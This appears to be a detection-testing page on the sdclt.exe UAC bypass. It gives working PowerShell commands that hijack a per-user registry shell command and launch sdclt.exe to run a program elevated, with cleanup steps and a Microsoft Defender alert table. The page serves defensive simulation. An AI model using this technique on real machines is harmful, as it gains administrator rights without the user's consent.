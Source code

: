 # UAC Bypass

UAC Bypass is a technique where attackers elevate their privileges to gain administrator-level permissions without triggering a User Account Control (UAC) prompt. This allows them to perform restricted tasks without user confirmation, bypassing security checks that would typically prevent unauthorized actions.

## Simulation

Run the following commands in PowerShell on a test device.

```powershell
New-Item -Force -Path "HKCU:\Software\Classes\Folder\shell\open\command" -Value 'cmd.exe /c notepad.exe'
New-ItemProperty -Force -Path "HKCU:\Software\Classes\Folder\shell\open\command" -Name "DelegateExecute"
Start-Process -FilePath "$env:windir\system32\sdclt.exe"
```

## Cleanup

```powershell
Remove-Item -Path "HKCU:\Software\Classes\Folder" -Recurse -Force -ErrorAction Ignore
```

## Detections

| Alert Title | Alert Description | Alert Details |
| -- | -- | -- |
| UAC bypass was detected | A process has performed actions on a child process or another subsequent process that would normally require a User Account Control (UAC) prompt. This could be an attempt to elevate privileges without requesting user permission. | **Category:** Privilege escalation<br/>**MITRE ATT&CK Techniques:** T1112: Modify Registry, T1548.002: Bypass User Account Control<br/>**Service source:** Microsoft Defender for Endpoint<br/>**Detection source:** EDR<br/>**Detection technology:** Behavior,Network<br/>**Detection status:** Detected |

